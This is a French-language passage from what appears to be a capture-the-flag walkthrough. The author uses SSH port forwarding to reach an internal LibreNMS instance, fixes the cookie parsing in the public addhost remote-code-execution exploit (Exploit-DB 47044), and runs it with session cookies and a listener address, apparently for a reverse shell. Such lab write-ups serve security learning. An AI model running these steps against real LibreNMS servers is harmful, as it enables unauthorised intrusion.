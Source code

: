 Le hash de `aeolus` correspond bien au mot de passe que l'on a déjà cassé.

On peut utiliser ce compte pour se connecter via SSH.

On découvre une fois connecté qu'un procesuss Apache tourne avec les droits de l'utilisateur `cronus` :

`uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)`

Et il semble que le `DocumentRoot` du serveur web correspond au dossier `/opt/librenms/` qui est géré par l'utilisateur `librenms` et les membres du groupe éponyme :

```
drwxrwx--- 26 librenms librenms 4.0K Jul 18  2019 librenms
```

Comme on ne peut pas lire les fichiers on va forwarder le port en écoute 8080 pour y accéder :

```bash
ssh -N -L 8080:127.0.0.1:8080 aeolus@192.168.56.113
```

On tombe alors sur une mire `LibreNMS`. Ce logiciel se présente comme cela sur Github :

> LibreNMS is an auto-discovering PHP/MySQL/SNMP based network monitoring which includes support for a wide range of network hardware and operating systems including Cisco, Linux, FreeBSD, Juniper, Brocade, Foundry, HP and many more.

Les identifiants `aeolus` permettent de s'y connecter. Je ne trouve rien permettant d'exécuter des commandes ou d'uploader un fichier mais il y a un exploit pour ce qui semble être une injection de commande :

[LibreNMS 1.46 - addhost Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/47044)

L'exploit n'est pas très avancé, notamment il requiert qu'on lui passe les cookies en argument au lieu de faire l'authentification lui-même.

Il gère aussi mal le découpage des cookies quand le caractère égal est présent dans la valeur du cookie. J'ai du rectifier la partie qui gère ça :

```python
# request cookies
cookies = {}
for cookie in raw_cookies.split(";"):
    cookie = cookie.strip()
    if cookie:
        # print cookie
        c = cookie.split("=", 1)
        cookies[c[0]] = c[1]
```

Après ça fonctionne (j'ai mis tous les cookies mais peut être que le `PHPSESSID` suffirait) :

```bash
$ python 47044.py http://127.0.0.1:8080/ "XSRF-TOKEN=eyJpdiI6ImRUbjN2NEt2YjA4Mk1hbXJBK0N5VlE9PSIsInZhbHVlIjoiVm9cL01Ba0dyYTN6MHlhbjdoVWJxK1RPcHZOWHFPUXhPYUF4V3VWZ3FRV2FiMnNpYjRPMkp1b0tXa2FsSHdtT1M0U0NPcWQxUzl0MHFZTWNoaERJbFNnPT0iLCJtYWMiOiJjMzcxMzUyOWFiZTRhOTZiZjU5Mjc4MjAxNWJlYWIwNDkyMTkyOWZjYzJlOGIwYWQyODcxNmNhMGNmMzU0ZDBiIn0=; librenms_session=eyJpdiI6Ild3UWVVM0VESERieWlQdmorNElPOGc9PSIsInZhbHVlIjoiMFhIenc2UThGWVFXSWU5cnlTMFR3VkFnTytpckVxSzVEbE0yeU1Fa1p2VlQxQ2hqMjA0d2hDNDhIT3VZZytDY1ZIRFVvOFJ3ZENpc21RaFh1SGxydWc9PSIsIm1hYyI6IjU5MzlhNDhiMzgyMjBjYjY0OTc4YWVkN2ZmOWM3ZTI4OGQ0OTUxOWZhYWE2OTliYmI0Mjc5ZWVkOGUyNTFkYWUifQ==; PHPSESSID=g4pm7kq5bqg0vu8lb08mvilmu7;" 192.168.56.1 9999
[+] Device Created Sucssfully
```
